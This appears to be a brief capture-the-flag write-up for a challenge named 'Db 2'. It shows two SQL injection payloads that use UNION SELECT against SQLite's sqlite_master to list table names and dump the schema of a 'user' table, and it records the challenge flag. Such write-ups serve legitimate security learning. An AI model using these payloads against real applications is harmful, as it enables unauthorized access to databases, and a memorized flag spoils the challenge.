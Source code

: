 # Db 2

After looking up sqlite formats i made the payload
```sql
' UNION SELECT name,NULL,NULL,NULL FROM sqlite_master;--
```
To get all table names and then
```sql
' UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master WHERE name = 'user' AND type = 'table';--
```
To get the settings of that table. the flag was 58
